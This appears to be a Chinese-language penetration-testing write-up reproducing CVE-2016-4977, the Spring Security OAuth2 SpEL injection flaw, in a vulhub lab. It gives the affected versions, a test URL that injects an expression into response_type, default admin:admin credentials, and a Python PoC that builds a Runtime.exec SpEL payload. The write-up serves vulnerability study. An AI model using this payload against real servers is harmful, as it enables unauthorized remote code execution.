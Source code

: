 ![](https://gitee.com/fuli009/images/raw/master/public/20210903083023.png)image-20210829162247520

这里复现的环境搭建均采用p牛的vulhub靶场环境。

## Spring渗透总结

### 1.Spring Security OAuth2 远程命令执行（CVE-2016-4977）

#### 漏洞简介

Spring Security OAuth2是为Spring框架提供安全认证支持的一个模块。Spring Security
OAuth2处理认证请求的时候如果使用了whitelabel views，response_type参数值会被当做Spring
SpEL来执行，攻击者可以在被授权的情况下通过构造response_type值也就是通过构造恶意SpEL表达式可以触发远程代码执行漏洞。故是在需要知道账号密码的前提下才可以利用该漏洞。

#### 影响版本

    
    
    2.0.0-2.0.9  
    1.0.0-1.0.5  
    

#### 漏洞验证

启动漏洞

![](https://gitee.com/fuli009/images/raw/master/public/20210903083024.png)image-20210829172348141

访问url

![](https://gitee.com/fuli009/images/raw/master/public/20210903083025.png)

输入下面的漏洞测试url：

    
    
    http://192.168.173.144:8080/oauth/authorize?response_type=${2*2}&client_id=acme&scope=openid&redirect_uri=http://test  
    

访问后会弹窗，输入用户名和密码 admin:admin即可，返回结果可以看到值被成功计算为2*2=4

![](https://gitee.com/fuli009/images/raw/master/public/20210903083026.png)![](https://gitee.com/fuli009/images/raw/master/public/20210903083027.png)

页面返回执行了我们输入的SpEL表达式，这里可以看作是SpEL表达式的注入，既然表达式被执行了，我们可以考虑代码注入的可能性。

#### 漏洞复现

这里看一下vulhub提供的poc，poc地址：https://github.com/vulhub/vulhub/blob/master/spring/CVE-2016-4977/poc.py

    
    
    #!/usr/bin/env python  
    message = input('Enter message to encode:')  
    poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])  
    for ch in message[1:]:  
       poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch)   
    poc += ')}'  
    print(poc)  
    